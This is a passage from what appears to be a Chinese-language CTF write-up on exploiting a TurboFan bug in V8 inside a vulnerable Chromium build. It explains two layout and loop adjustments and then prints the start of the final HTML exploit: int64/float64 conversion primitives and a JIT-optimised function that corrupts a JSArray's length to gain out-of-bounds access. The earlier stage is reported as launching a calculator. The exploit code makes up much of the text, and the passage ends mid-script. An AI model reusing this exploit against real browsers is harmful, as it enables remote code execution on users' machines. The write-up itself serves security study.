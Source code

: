 WasmJSFunction();
</code></pre>
最终在 release 版下的 v8 可以成功调用 calculator：
[![](https://p1.ssl.qhimg.com/t013bb3ad17dfd29a1b.png)](https://p1.ssl.qhimg.com/t013bb3ad17dfd29a1b.png)
</li>
<li>但我们做题实际用到附件是一个带漏洞 v8 的 chromium。为了将 exploit 从 v8 移植到 chromium，其中**做了一点点微调**，因此最终的 exploit 如下：<br><blockquote>
这里主要调整了两个地方：
<ol>
<li>
**微调了内存布局。**<br>
将oob_arr、array_buffer以及WasmJSFunctionObj放的更近，使得内存布局的相对偏移不会太大。这样搜索哨兵值时就不用搜索太多次。</li>
<li>
**将两个搜索哨兵值的for循环合并成一个。**<br>
因为动态调试发现，当第二个for循环开始执行几十个循环后，原先存放 oob_array 以及 WasmJSFunctionObj 内存的数据将会被覆盖，**疑似**因为对象被过多访问而将其移动至另一个内存段上。这对我们泄露地址相当不利，因此合并两个for循环以降低搜索次数。</li>
</ol>
</blockquote>
<pre><code class="lang-html hljs xml">&lt;script&gt;
    /******* -- 64位整数 与 64位浮点数相互转换的原语 -- *******/
    var transformBuffer = new ArrayBuffer(8);
    var bigIntArray = new BigInt64Array(transformBuffer);
    var floatArray = new Float64Array(transformBuffer);
    function Int64ToFloat64(int) `{`
        bigIntArray[0] = BigInt(int);
        return floatArray[0];
    `}`
    function Float64ToInt64(float) `{`
        floatArray[0] = float;
        return bigIntArray[0];
    `}`

    /******* -- 修改JSArray length 的操作 -- *******/
    var oob_arr = [];

    function opt_me(x) `{`
        oob_arr = [1.0, 1.1, 1.2, 1.3, 1.4, 1.5, 1.6];
        let t = (x == 1 ? 9007199254740992 : 9007199254740989);
        t = t + 1 + 1;
        t -= 9007199254740990;
        t *= 2;
        t += 2;
        oob_arr[t] = 3.4766779039175022e-310; // 0x4000.f2smi
    `}`
    // 试着触发 turboFan，从而修改 JSArray 的 length
    for (let i = 0; i &lt; 0x10000; i++)
        opt_me(1);
    // 简单 checker
    if (oob_arr[1023] == undefined)
        throw "OOB Fail!";
    else
        console.log("[+] oob_arr.length == " + oob_arr.length);
